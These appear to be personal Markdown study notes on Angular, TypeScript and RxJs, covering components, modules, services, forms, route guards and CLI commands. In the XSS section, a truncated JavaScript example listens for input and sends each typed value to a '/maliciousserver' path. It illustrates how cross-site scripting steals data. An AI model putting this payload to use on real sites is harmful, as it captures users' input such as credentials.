# Angular

**Generating a New Project**

```console
ng new <app name>
```

**Starting an Angular Project**

```console
npm start

ng serve
```

**Event Binding**



**Property Binding**



**Interpolation Syntax**

```ts
{{ password }}
```

**Structural Directives**



**Deploying Angular Apps**

- `now.sh`: Free, CLI-based deployments. Automatically figures out how to build your app.

```console
npm install -g now

now login
```

## Angular Components

**Angular Components**

- All Angular apps are made of multiple different components.
- Each component is designed to implement one 'thing' in the app that is visible on the screen.
- A component wraps up all the HTML and code to make one little widget work correctly.
- A component can be reused multiple times in the same application.
- Components can be nested, or shown inside of each other.
- Every app has a component called the 'App' component, and it is always the most parent component.
- Each component has its own Component Class, Component Template, Component CSS File, and Spec File.

**Generating a New Component**

```console
ng generate component <name>
```

**App Bootup Process**

- Angular loads up each component class file, inspects the 'selector' property.
- Angular then takes a look at the HTML document that got loaded into the browser.
- `<app-root>` found! Angular finds a component with a matching 'selector'.
- Angular creates an instance of that component.
- Angular turns the instance's template into real HTML, then sticks it into the app-root element
(the 'host' element).
- While inspecting the app's template, Angular sees the 'app-card' element.
- Angular creates an instance of that component.
- Angular turns the instance's template into real HTML, then sticks it into the app-card element
(the 'host' element).

**CSS Styling**



**Communicating from Parent to Child**





## Pipes

- Functions that format data for use in a template.
- Only used in a template.
- Some pipes are built into Angular.

```console
ng generate pipe convert
```

## Directives

- Can be used to modify the structure or properties of HTML elements.
- Used only in template.

```console
ng generate directive class
```

**Communicate from parent to child component**

```html
<!-- Parent Component Template -->
<app-card [title]=" 'Black Rock' "></app-card>
```

```ts
// Child component class
import { Input } from '@angular/core';

class ChildComponent {
    @Input() title: string;
} 
```

**ngClass replacement**

```ts
import { Directive, ElementRef, Input } from '@angular/core';

@Directive({
  selector: '[appClass]'
})
export class ClassDirective {
  constructor(private element: ElementRef) {}
  @Input('appClass') set classNames(classObj: any) {
    for (let key in classObj) {
      if (classObj[key]) {
        this.element.nativeElement.classList.add(key);
      } else {
        this.element.nativeElement.classList.remove(key);
      }
    }
  }
}
```

## Module System

```console
ng new comps --routing
```

**Module Types**

- Domain: Wraps up all the components needed to implement one single feature.
- Routed: Domain module plus tied to routes.
- Routing: Defines routing rules.
- Service: Defines services that will be used in multiple parts of the app.
- Widget: Defines some reusable components that will be used in multiple other modules.

**Generating Modules**

```console
ng generate module MODULE_NAME --routing

ng g m MODULE_NAME --routing
```

```console
ng generate component elements/ElementsHome
```

- `--routing` flag tells Angular to make this module ready for navigation.

**Module Property Definitions**

- **Modules:**
    - declarations: List of components, pipes, directives that are created in this module.
    - imports: List of other modules that this module depends upon.
    - exports: List of components, pipes, directives that this module makes available to other modules.
    - providers: Old way of connecting modules and services.
    - bootstrap: Used by the AppModule only to declare what component will be displayed first.



**app.component.html**

```html
<router-outlet></router-outlet>
```

## Lazy Loading with Modules

**Implementing Lazy Loading**

- Choose which module should be lazy loaded.
- For each of these modules, remove any import statements for those modules from anywhere else in your project.
- In the AppRoutingModule, define a Route in the 'routes' array to specify when to load up that module.
- In your loaded module's Routing file, edit the 'path' of each route to be relative to the path you specified in the
'AppRoutingModule'.



**NgContent**



## Lifecycle Hooks

- **ngOnInit**: Called once after this component is first displayed on the screen and after Angular has
set any properties passed down from the parent component.
- **ngOnDestroy**: Called once when Angular is about to remove this component (for example, when we navigate
to a different route!).
- **ngOnChanges**: Called anytime a property of the component is changed (including when a parent component passed
down ned data).

## Typescript

- Superset of Javascript (it has all the features of JS + more).
- We write TS during development, but the browser still runs JS.
- Provides zero speed or performance benefits!
- The only goal of Typescript is to help you catch error in your code editor instead of while 
your app is running.

```console
npm init -y

npm install typescript ts-node-dev
```

**Type Interference**

- Typescript is smart! It can figure out things for us.
- If we initialize and assign a variable on a single line, Typescript will try to figure out the type
of variable for us.
- We rely on this behavior extremely frequently except in a couple of corner cases.

**Why Types?**

- Typescript knows about the different properties and methods that every type has!
- If we refer to properties or methods that don't exist on a value, it will display an error.

```console
npx typescript --init
```

**Decorators**

- Plain functions.
- Called when the file first gets executed, not when an instance of class is created.
- Can be applied to a class, a property, a method, an accessor, or an argument method.
- Receives different arguments depending on where it gets used.
- Can be a plain decorator or a decorator factory.
- Used to mess around with the internals of the class in clever ways.

```ts
const valueWrapper = <T>(value: T): T[] => {
    return [value];
};
```

## Data and HTTP Requests

**Services**

- Used to `fetch/store/update` any kind of data in our app.
- Almost always where we are going to put network requests.
- Data flows from a service to a component.
- Services are implemented as classes.
- Angular will automatically create a single instance of each service for us.

**Services Behavior**

```ts
constructor(private wikipedia: WikipediaService) {}
```

- `constructor`: Gets called automatically whenever an instance of AppComponent is created.
- `private wikipedia`: wikipedia will be added as a private property automatically to the instance of 
the App component.
- `WikipediaService`: wikipedia will be of type 'Instance of WikipediaService'.



**Dependency Injection**

- Components, services and other things in Angular 'ask' for dependencies, rather than creating them directly.
- Components need other things to work correctly. Our components could create an instance of those things 
themselves. Instead, we create them separately and pass them in to the constructor.
- The 'automatic' nature of DI is not strictly required, we could do this all manually by hand.
- The goal is to make testing easier.
- Theoretically makes code reuse and code changes easier.

## App Security in Angular 



### XSS Attacks

**Cross-Site Scripting (XSS) Attacks**

- Allows malicious users to run JS code on other user's browsers.
- This bad JS code can be used to steal credentials, make requests, etc.
- **Angular has you covered** - it will automatically escape HTML.

```js
 {
    el.addEventListener('input', (event) => {
        fetch(`/maliciousserver?value=${event.target.value}`);
    });
});" />
```

```ts
xss = '';
```

```html
<!-- will not display alert-->
<div [innerHTML]="xss"></div>
```

## RxJs

**Notes on Rxjs**

- Separate library from Angular.
- Used extensively by Angular for managing data.
- We use this instead of promises or async/await for handling async stuff.
- Not strictly required! We can use promises and async/await!
- RxJs makes building some kinds of features really easy compared to writing normal code.
- Hard, probably the hardest thing in the world of JS.





**Operators**

- Functions that do some specific processing on the incoming value.
- We chain together operators to build up a processing pipeline.
- 75% of RxJs is memorizing the different operators.
- There are some very generic operators and some very specific ones.
- For any given problem, you will probably decide to use one operator, then later realize you could
have more easily used another.
- Take a look at exactly what value is coming out of your observable, the figure out what operators
you need to implement your app.



**Major Operator Groups**

- Transform: Take in a value, do some processing, return a new value.
- Filtering: Modifies the flow of events in a pipe (group them together, pause them, delete them).
- Creation: Creates a new observable.

**Specific Operators**



**Unicast Observables**

- Emit a separate set of values for each observer that subscribes.
- All of the operators in a pipe will be executed for each separate observer that subscribes.
- Can easily lead to bad behavior!



**Multicast Observables**

- Emit a single set of values for all observers that subscribe.
- All of the operators in a pipe are executed just once.
- The observable will be 'reset' if it gets 'completed' or 'errored' then another subscriber is added.
- Quickly runs into issues with a later subscriber not seeing earlier events!



**Hot vs Cold Observables**



- Hot Observable: Single event stream shared for all subscribers old and new.
- Cold Observable: Event stream recreated for each new subscriber.



- Describe the term Observable:
    - An Observable is an object that will emit events.
- Describe the term Operator:
    - An Operator is added to a pipe, and processed values flowing through pipe.
- Describe the term Observer:
    - An Observer handles values or errors that flow out of an operator or pipe.

### Typescript + RxJs

```ts
interface Car {
  year: number;
  color: string;
  running: boolean;
  make: {
    name: string,
    dateCreated: number
  }
}

const observable = new Observable<Car>((observer) => {
  observer.next({
    year: 2000,
    color: 'red',
    running: true,
    make: {
      name: 'Chevy',
      dateCreated: 1950
    }
  });
}).pipe(
  pluck('make', 'name')
);

observable.subscribe(value => {
  console.log(value);    // Chevy
});
```

## Forms



**Form Properties**

- valid: Angular has validated whatever the user entered successfully.
- invalid: The value in the input is invalid.
- pending: Validation is currently running on this field.
- disabled: Ignore user input this field and don't validate it.
- touched: User clicked into then out of a field.
- untouched: User hasn't clicked into then out of this field.
- pristine: User hasn't clicked on this field at all.
- dirty: User has changed the value of this field.



## Authentication app

```console
ng g m Auth --routing
ng g m Shared
ng g c auth/Signin
ng g c auth/Signup
ng g c shared/Input
```



**Async Error Validation**



### Signup



### Guard

- `canActivate`: User can visit the route.
- `canActivateChild`: User can visit this child route.
- `canLoad`: User can load this lazily-loaded module and access the routes inside of it.

```console
ng generate guard auth/Auth
```

### Route Information

- Observable: Emits values whenever some specific part of the URL changes.
- Snapshot: Simple description of what the URL is *right now*.

***

## Type Script

### Type Annotations and Type Inference

- Type annotations:
    - Code we add to tell Typescript what type of value a variable will refer to.
    - Developers tell Typescript the type.
- Type inference:
    - Typescript tries to figure out what type of value a variable refers to.
    - Typescript guesses the type.
    
**Typescript Types**

- Primitive Types:  number, boolean, void, undefined, string, symbol, null. 
- Object Types: functions, arrays, classes, objects.
    
**Type inference**

- Typescript guesses the type. Use Always!
    
**Annotations**

- Developers tell typescript a type.

```ts
// When to use annotations
// 1) Function that returns the 'any' type
const json = '{"x": 10, "y": 20}';
const coordinates: { x: number, y: number } = JSON.parse(json);
console.log(coordinates);

// 2) When we declare a variable on one line
// and initialize it later
let words = ['red', 'green', 'blue'];
let foundWord: boolean;

for (let i = 0; i < words.length; i++) {
    if (words[i] === 'green') {
        foundWord = true;
    }
}

// 3) Variable whose type cannot be inferred correctly
let numbers = [-10, -1, 12];
let numberAboveZero: boolean | number = false;

for (let i = 0; i < numbers.length; i++) {
    if (numbers[i] > 0) {
        numberAboveZero = numbers[i];
    }
}
```

**Annotations Around Functions**

- Type annotations for functions: Code we add to tell Typescript what type of arguments a function will
receive and what type of values it will return.
- Type inference for functions: Typescript tries to figure out what type of value a function will return. 

**Annotations and Objects**

```ts
const profile = {
    name: 'alex',
    age: 20,
    coords: {
        lat: 0,
        lng: 15
    },
    setAge(age: number) {
        this.age = age;
    }
};


const { age, name }: { age: number, name: string } = profile;
const { coords: { lat, lng } }: { coords: {lat: number, lng: number} } = profile;
```

**Tuple**

- Tuple: Array-like structure where each element represents some property of a record.

```ts
const drink = {
    color: 'brown',
    carbonated: true,
    sugar: 40
};

// Type alias
type Drink = [string, boolean, number];

const pepsi: Drink = ['brown', true, 40];
const sprite: Drink = ['clear', true, 40];
const tea: Drink = ['brown', false, 0];
```

**Interfaces**

```
Interfaces + Classes = How we get really strong code reuse in TS
```

- Interfaces: Creates a new type, describing the property names and value types of an object.

**Classes**

- Classes: Blueprint to create an object with some fields (values) and methods (functions) to represent
a 'thing'.

**Class Method Modifiers**

- public: This method can be called anywhere, any time.
- private: This method can be called by other methods in this class.
- protected: This method can be called by other methods in this class, or by other methods in child classes.

```console
npm install -g parcel-bundler
```

- Tool to help us run Typescript in the browser.

```console
npm install @types/faker
```

### TS compiler

- Turns TS to JS code.

```console
tsc index.ts

tsc --init

tsc -w

npm init -y

npm install nodemon concurrently
```

**Abstract Classes**

- Can't be used to create an object directly.
- Only used as a parent class.
- Can contain real implementation for some methods.
- The implemented methods can refer to other methods that don't actually exist yet
(we still have to provide names and types for the un-implemented methods).
- Can make child classes promise to implement some other methods.

**Interfaces vs Abstract Classes**

- Interfaces:
    - Sets up a contract between different classes.
    - Use when we have very different objects that we want to work together.
    - Promotes loose coupling.
- Inheritance / Abstract Classes:
    - Sets up a contract between different classes.
    - Use when we are trying to build up a definition of an object.
    - Strongly couples classes together.
    
### Modules

- Organizes code in a project.
- Contains a set of components, services, pipes and directives.
- Some modules are built into Angular, others we create on our own.
- Forces you to organize your code.
- Can have a huge impact on how quickly your app starts up.      

### How to structure services

**How to Wire Up Services in a Module World**

- Add the Service to a module's 'providers' array.
- Use `@injectable` decorator.

### Subject Variations

- Async Subject: Same as subject, but also doesn't emit any values unitil it is marked as 'complete'. Only last
value is emitted.
- Behavior Subject: Same as subject, but also takes an initial 'seed' value. New subscribers instantly get the
most recent values.
- Reply Subject: Same as subject, but also new subscribers instantly get sent all previously emitted values.

```console
npm install angular-notifier

ng g c login --skipTests --module app

mvn spring-boot:run

# Loading Spinner
npm install --save ngx-loading@2.0.1

ng build
```


